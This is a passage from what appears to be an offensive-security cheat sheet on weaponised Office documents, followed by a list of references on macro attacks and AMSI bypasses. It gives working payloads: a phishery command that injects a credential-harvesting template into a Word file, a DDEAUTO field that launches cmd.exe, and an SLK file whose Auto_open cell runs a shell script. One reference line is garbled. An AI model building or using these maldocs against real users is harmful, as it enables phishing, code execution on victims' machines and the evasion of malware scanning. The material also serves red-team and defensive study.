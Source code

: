 ```ps1
$ phishery -u https://secure.site.local/docs -i good.docx -o bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```


## DOCX - DDE

* Insert > QuickPart > Field
* Right Click > Toggle Field Code
* `{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

## SLK - Excel

```ps1
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

## References

* [VBA RunPE Part 1 - itm4n](https://itm4n.github.io/vba-runpe-part1/)
* [VBA RunPE Part 2 - itm4n](https://itm4n.github.io/vba-runpe-part2/)
* [Office VBA AMSI Parting the veil on malicious macros - Microsoft](https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/)
* [Bypassing AMSI fro VBA - Outflank](https://outflank.nl/blog/2019/04/17/bypassing-amsi-for-vba/)
* [Evil Clippy MS Office Maldoc Assistant - Outflank](https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/)
* [Old schoold evil execl 4.0 macros XLM - Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)
* [Excel 4 Macro Generator x86/x64 - bytecod3r](https://bytecod3r.io/excel-4-macro-generator-x86-x64/)
* [VBad - Pepitoh](https://github.com/Pepitoh/VBad)
* [Excel 4.0 Macro Function Reference PDF](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf)
* [Excel 4.0 Macros so hot right now - SneekyMonkey](https://www.sneakymonkey.net/2020/06/22/excel-4-0-macros-so-hot-right-now/)
* [Macros and more with sharpshooter v2.0 - mdsec](https://www.mdsec.co.uk/2019/02/macros-and-more-with-sharpshooter-v2-0/)
* [Further evasion in the forgotten corners of ms xls - malware.pizza](https://malware.pizza/2020/06/19/further-evasion-in-the-forgotten-corners-of-ms-xls/)
* [Excel 4.0 macro old but new - fsx30](https://medium.com/@fsx30/excel-4-0-macro-old-but-new-967071106be9)
* [XLS 4.0 macros and covenant - d-sec](https://d-sec.net/2020/10/24/xls-4-0-macros-and-covenant/)
* [Inject macro from a remote dotm template - ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
* [Phishinh with OLE - ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk)
* [Phishing SLK - ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-.slk-excel)bypassing-malicious-macro-detections-by-defeating-child-parent-process-relationships)
* [PropertyBomb an old new technique for arbitrary code execution in vba macro - Leon Berlin - 22 May 2018](https://www.bitdam.com/2018/05/22/propertybomb-an-old-new-technique-for-arbitrary-code-execution-in-vba-macro/)
* [AMSI in the heap - rmdavy](https://secureyourit.co.uk/wp/2020/04/17/amsi-in-the-heap/)
* [WordAMSIBypass - rmdavy](https://github.com/rmdavy/WordAmsiBypass)